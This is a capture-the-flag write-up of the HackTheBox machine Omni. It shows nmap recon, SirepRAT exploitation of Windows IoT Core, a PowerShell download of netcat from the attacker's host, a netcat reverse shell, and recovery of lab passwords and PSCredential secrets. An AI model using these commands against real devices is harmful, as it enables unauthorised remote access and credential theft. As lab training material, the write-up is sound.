\documentclass[../main.tex]{subfiles}

\begin{document}

\section{HackTheBox Omni}

My writeup will be about the HackTheBox machine called Omni. In the info card below, we can see that this machine is classified as an \textbf{Other} type OS. This might mean that it uses an older, lesser-known OS. We'll have to find out about that later. Under difficulty, we can see this machine is considered an \textbf{easy} machine. Easy machines can still be quite the challenge to crack if you've never completed a HackTheBox challenge before.
    
\begin{center}
  
\includegraphics[width=0.75\linewidth]{images/Wannes/omni_info.png}
\end{center}

\subsection{Recon}

Let's try to find out some stuff about this machine. We'll start by using a simple \textbf{nmap} command. This command will scan all the ports of the machine (because of the \textbf{-p-} option). Nmap will also try to guess what OS is running and display known vulnerabilities.

\begin{lstlisting}
# nmap -sS -sV --script=default,vuln -p- -T5 10.10.10.204
\end{lstlisting}

\begin{lstlisting}
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-22 06:01 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.204
Host is up (0.092s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the
service/version, please submit the following fingerprint at 
https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=11/22%Time=5FBA459C%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 465.47 seconds
\end{lstlisting}

In this nmap scan we can see that there are a couple of ports open. These appear to be some sort of webservers, as nmap guesses there are Microsoft IIS httpd servers running there. On port \textbf{8080/tcp} under Basic Realm the server returned \textbf{Windows Device Portal}. If we look this up, we can see that this is an app to manage your Microsoft systems remotely. On this website \footnote{\url{https://docs.microsoft.com/nl-nl/windows/uwp/debug-test-perf/device-portal}} we can find a table indicating that if the Windows Device Portal is running on port 8080, that this means the operating system is very likely to be \textbf{Windows IoT Core}.

\newpage

\includegraphics[width=\linewidth]{images/Wannes/omni_ports.png}

This is also backed up by the fact that on the HackTheBox website this box is classified as \textbf{Other} under the OS category, as stated previously.

\newpage
\subsection{Exploiting}

Now that we are fairly certain about the OS of this box, let's try to find an exploit we can use. When I search for Windows IoT core exploit I find this article \footnote{\url{https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/}}, stating there is an exploit available for all Windows IoT Core devices running the stock Microsoft image. This exploit will be published on GitHub under the name SirepRAT:


\includegraphics[width=\linewidth]{images/Wannes/omni_sireprat.png}

As this article was published in early 2019, let's see if this exploit is published already. When searching for \textbf{SirepRAT GitHub}, there is a repository \footnote{\url{https://github.com/SafeBreach-Labs/SirepRAT}} that appears to contain the exploit we are looking for.


\includegraphics[width=\linewidth]{images/Wannes/omni_sireprat_github.png}

This repo contains a Python program which claims it can access Windows IoT Core devices without needing login credentials. With this access, the program can upload and download files and do much more with the device. Let's try and run this program and see if it works.

\subsubsection{Testing SirepRAT}

To install SirepRAT we need to have a working Python installation. This is already the case on Kali Linux. However, I personally ran into some issues when using Kali for this exploit so the rest of this section will be performed on a newly installed Ubuntu 20.04 VM.

\newpage
After trying to run SirepRAT using Python 3, I got errors about missing parentheses when using the print command. This means the program was written in Python 2. After installing Python 2 and the requirements using Python pip, we try to run SirepRAT again. This time we get a working prompt telling us to please provide an IP and a command. This signifies that the software is now working.

\begin{lstlisting}
$ python2 SirepRAT.py

usage: SirepRAT.py target_device_ip command_type [options]
SirepRAT.py: error: too few arguments
\end{lstlisting}

Let's try this script on our box. When entering the correct IP and a command found on the GitHub Readme file we can get system information back from the IoT device:

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 GetSystemInformationFromDevice

<SystemInformationResult | type: 51, payload length: 32, kv:
{'wProductType': 0, 'wServicePackMinor': 2, 'dwBuildNumber': 17763,
'dwOSVersionInfoSize': 0, 'dwMajorVersion': 10, 'wSuiteMask': 0,
'dwPlatformId': 2, 'wReserved': 0, 'wServicePackMajor': 1,
'dwMinorVersion': 0, 'szCSDVersion': 0}>
\end{lstlisting}

This command worked. It returned a whole list of information about the device. Let's now try running a command on the system using our exploit. We'll again start with an example from the Readme: 

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output --cmd "C:\Windows\System32\hostname.exe"
    
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 6, payload peek: 'omni'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}

Here we again get the expected result: a response from the server with the correct hostname.

\newpage
To show the fact you can execute command as System there is one last command on the Readme we will test:

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output --cmd "C:\Windows\System32\cmd.exe"
    --args " /c echo {{userprofile}}"
    
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 22, payload peek: 
'C:\Data\Users\System'>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}

As we can see the command returned the Userprofile System.

\newpage
\subsubsection{Using SirepRAT to gain reverse shell}
Now that we know how SirepRAT commands work, we can try using it to download a file of a locally hosted Python webserver. The file we will download is a netcat executable. After downloading this file from here \footnote{\url{https://eternallybored.org/misc/netcat/}}, it is located in our downloads folder, so let's run the webserver there.

\begin{lstlisting}
$ cd Downloads/
$ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
\end{lstlisting}

After looking up how to download a file using cmd, we learn that to do this, you need to invoke Powershell to run it with the \textbf{Invoke-Webrequest} command. This is a command comparable to cURL on GNU operating systems.

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output
    --cmd "C:\Windows\System32\cmd.exe"
    --args " /c powershell Invoke-Webrequest
        -Uri 10.10.14.48:8000/nc64.exe
        -OutFile C:\Windows\System32\nc64.exe"

<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: ''>
\end{lstlisting}

It appears we successfully downloaded our netcat executable to the target system. To confirm this, let's run a command to return file information:

\begin{lstlisting}
$ python2 SirepRAT 10.10.10.204 GetFileInformationFromDevice
    --remote_path "C:\Windows\System32\nc64.exe"
    
<FileInformationResult | type: 61, payload length: 40,
kv: {'HResult': '0x0', 'time_created': '2018-10-27 08:35:50',
'time_last_write': '2018-10-27 08:35:50', 'file_size': 9696256,
'time_last_access': '2018-10-27 08:35:50', 'dwFileAttributes': 32}>
\end{lstlisting}

Since we get all of this information we can safely assume the file got to its destination safely. Let's try running it to gain a reverse shell. To do this, we first need to set up a netcat listener on the attacking device.

\begin{lstlisting}
$ nc -nvlp 1234

Listening on 0.0.0.0 1234
\end{lstlisting}

Now we run the netcat exe on the target device,

\begin{lstlisting}
$ python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput
    --return_output
    --cmd "C:\Windows\System32\nc64.exe"
    --args " 10.10.14.48 1234 -e powershell.exe"
\end{lstlisting}

and we get a Powershell prompt on our netcat listener:

\begin{lstlisting}
Connection received on 10.10.10.204 49683
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32>
\end{lstlisting}

\newpage
\subsubsection{Obtaining password hashes}

When looking up how to obtain password hashes from a Powershell prompt, we learn about the Get-Credential command. This command is used to get the current credentials of your system. However, it doesn't seem to work on this particular system. Every time we run the Get-Credential command we don't get any return value and we have to restart the reverse shell. We'll have to look elsewhere.

On a Windows System the password hashes get stored in the SAM file which you can export and download to your computer using SirepRAT. Or at least that would be the case, but unfortunately in this instance that won't work. The SirepRAT download file function doesn't seem to save any files on the local machine. The Readme file isn't very helpful here either and doesn't give us any clues. Let's try a different approach.

Maybe there is a file somewhere that might give us the passwords we're looking for. First, we'll have a look in the Users folder at the root of the drive.

\begin{lstlisting}
PS C:\Users> Get-ChildItem -force

    Directory: C:\Users

Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-rh--       10/26/2018  11:38 PM                Default                       
d-r---       10/26/2018  11:37 PM                Public
\end{lstlisting}

Here we find two user folders: \textbf{Default} and \textbf{Public}. Maybe there is something we can find in these folders. The only thing we find however are the user config files like NTUSER.DAT among some other stuff.

This isn't what we're looking for at all. After finding nothing of use for quite a while, it occurred to me that there might be other drives hooked up to the system. If you're running an RPi, it's always useful to hook up an external HDD via USB to get more storage. Let's see what drives are hooked up.

\begin{lstlisting}
PS C:\windows\system32> wmic logicaldisk get name
Name                          = C:
Name                          = D:
Name                          = U:
\end{lstlisting}

As predicted, there are drives hooked up to this system. It appears you can only connect to the U: drive, as the D: drive can't be found when trying to go there.

\begin{lstlisting}
PS C:\windows\system32> cd D:\
cd D:\
cd : Cannot find path 'D:\' because it does not exist.
\end{lstlisting}

Switching to the U: drive and running Get-ChildItem reveals the following folders:

\begin{lstlisting}
PS U:\> Get-ChildItem -force

    Directory: U:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/26/2018  11:37 PM                CrashDump
d-----       10/26/2018  11:37 PM                Logfiles
d--h--         7/3/2020  11:22 PM                ProgramData
d-----       10/26/2018  11:37 PM                Programs
d-----         7/3/2020  11:22 PM                SharedData
d--hs-         7/3/2020  10:25 PM                System Volume Information
d-----         7/3/2020  11:22 PM                SystemData
d-----       10/26/2018  11:38 PM                test
d-----         7/4/2020   7:28 PM                Users
d-----       10/26/2018  11:38 PM                Windows
-a-hs-       11/29/2020  12:39 AM      314572800 DedicatedDumpFile.sys
-a----         7/4/2020  12:22 AM              0 FirstBoot.Complete
\end{lstlisting}

There is a Users folder present on this drive as well. Let's see what's inside:

\begin{lstlisting}
PS U:\Users> Get-ChildItem

    Directory: U:\Users

Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----         7/4/2020   9:48 PM                administrator                 
d-----       11/29/2020   2:44 PM                app                           
d-----         7/3/2020  11:22 PM                DefaultAccount                
d-----         7/3/2020  11:22 PM                DevToolsUser                  
d-r---       11/29/2020   1:33 AM                Public                        
d-----         7/4/2020  10:29 PM                System
\end{lstlisting}

This appears to be the more used Users folder. Two of the six users appear to not have an uppercase first letter in their username. This makes me think these are the users we should be looking at. Let's open these folders up.

\begin{lstlisting}
PS U:\Users\app> Get-ChildItem

    Directory: U:\Users\app

Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---         7/4/2020   7:28 PM                3D Objects                    
d-r---         7/4/2020   7:28 PM                Documents                     
d-r---         7/4/2020   7:28 PM                Downloads                     
d-----         7/4/2020   7:28 PM                Favorites                     
d-r---         7/4/2020   7:28 PM                Music                         
d-r---         7/4/2020   7:28 PM                Pictures                      
d-r---         7/4/2020   7:28 PM                Videos                        
-ar---         7/4/2020   8:20 PM            344 hardening.txt                 
-ar---         7/4/2020   8:14 PM           1858 iot-admin.xml                 
-a----       11/29/2020   2:44 PM              2 query                         
-ar---         7/4/2020   9:53 PM           1958 user.txt
\end{lstlisting}

After trying to open all of the files here, only iot-admin.xml and user.txt appear to have something inside them. These two files are XML files which appear to hold PSCredential data. Let's look online to see if we can read these files.

Trying to open these files using the \lstinline{Import-CliXml} command, Powershell gives an error. When looking up this error, we learn this means that you can only open the file as the user whose credentials are stored in there.

\begin{lstlisting}
Import-Clixml : Key not valid for use in specified state.
At line:1 char:9
+ $cred = Import-Clixml -Path .\user.txt
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], CryptographicException
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicException,Microsoft.PowerShell.Commands.ImportClixmlCommand
\end{lstlisting}

This means we need to log in as \textbf{app} and \textbf{administrator} to gain access to these files.

\subsubsection{Accessing user accounts}

In the previous section, we stumbled across a couple of important files almost by accident. This gave me the idea to try and find more of these files. On GNU OSes there is a tool called \lstinline{find}. This tool lets you search for files with certain extensions or based on other filters. There exists a tool for Windows that does almost the same stuff. This tool is called \textbf{Get-ChildItem}, the same tool we use to view a folder's contents.

We'll start back on the C: drive for this part. This command searches for all files with the extensions .xml, .ps1, .txt and .bat:

\begin{lstlisting}
Get-ChildItem C:\ -Recurse -Include *.txt, *.bat, *.ps1, *.xml
\end{lstlisting}

However, this returned way too many files to comb through. Most of which are .xml files. We'll exclude these for now. Let's try the command again:

\begin{lstlisting}
Get-ChildItem C:\ -Recurse -Include *.txt, *.bat, *.ps1
\end{lstlisting}

When running this command we get a reasonable amount of files in return. We also see that there are user.txt and root.txt files that we missed. 

\begin{lstlisting}
Directory: C:\Data\Users\administrator
Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-ar---         7/4/2020   9:48 PM           1958 root.txt
\end{lstlisting}

These files contain the same data as the ones we found. These are probably here to increase the chances of you finding them.

None of the other files really peak my attention. Maybe there are hidden files we can look a that might be of more interest? We'll add the \lstinline{-Hidden} parameter and execute our command again.

\begin{lstlisting}
Get-ChildItem C:\ -Recurse -Hidden -Include *.txt, *.bat, *.ps1, *.xml

    Directory: C:\Program Files\WindowsPowerShell\Modules\PackageManagement

Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a-h--        8/21/2020  12:56 PM            247 r.bat
\end{lstlisting}

Now we find a single .bat file with a strange name, hidden in a folder deep inside Program Files. If we open this file we find out there are what appear to be logins inside, bingo.

\begin{lstlisting}
@echo off
:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
\end{lstlisting}

However, we can't use the SirepRAT exploit to log in. Maybe these are the logins for the Windows Device Portal website. This page displays a login box when visited.

The app login does work. We are presented with some sort of web management app.


\includegraphics[width=\linewidth]{images/Wannes/omni_web.png}

Here we can access many things such as Windows Update, what processes start on boot and much more. But most importantly we find a command prompt under Processes. 

\begin{center}
  
\includegraphics[width=0.75\linewidth]{images/Wannes/omni_web2.png}
\end{center}

\newpage
To know if this is a Powershell prompt, let's enter a command.


\includegraphics[width=\linewidth]{images/Wannes/omni_web3.png}

It appears that this is a CMD interface, not Powershell. Let's try running netcat to get a reverse shell for easier typing. We'll reuse our old command for this and adjust the port:


\includegraphics[width=\linewidth]{images/Wannes/omni_web4.png}

And sure enough, the command works. 

\begin{lstlisting}
user@ubuntu:~$ nc -nvlp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.204 49677
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32>
\end{lstlisting}

We can check that we are now logged in as app:

\begin{lstlisting}
PS C:\windows\system32> $env:UserName
app
\end{lstlisting}

Now we should be able to open the credentials file from earlier. To open the file we follow this \footnote{\url{https://techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/}} guide.

\newpage
First we store the data in a variable:

\begin{lstlisting}
$cred = Import-CliXml user.txt
\end{lstlisting}

Next we read the password using the GetNetworkCredential function.

\begin{lstlisting}
$cred.GetNetworkCredential().Password
7cfd50f6bc34db3204898f1505ad9d70
\end{lstlisting}

Let's see if this is the correct password by inputting it at \url{hackthebox.eu}. It is in fact the correct password. Now we can do this procedure again, but with the administrator account to get that password. This all goes as planned and as such, I won't type out the same step by step plan again.

\newpage
\subsection{Conclusion}

This first experience I had with HackTheBox had a lot of educational value for me. I got stuck quite often and left out some parts where I went into completely the wrong direction for hours to improve the reading experience considerably.

The challenge I completed was made, I think, to showcase how easy it is to exploit this very well known exploit found in Windows IoT Core using the SirepRAT tool. While it is quite interesting to see how you can use this knowledge to easily get a remote shell, I think it's a shame that there was so little variation. When you figure out how to get a reverse shell the first time, you feel smart. But the rest of the challenge only consists of exploiting the system in an almost exact same manner two more times after finding a hidden file. 

Getting the plaintext password from the PSCredential file was a nice technique. I will most likely implement a challenge like this in our upcoming CTF.

\end{document}
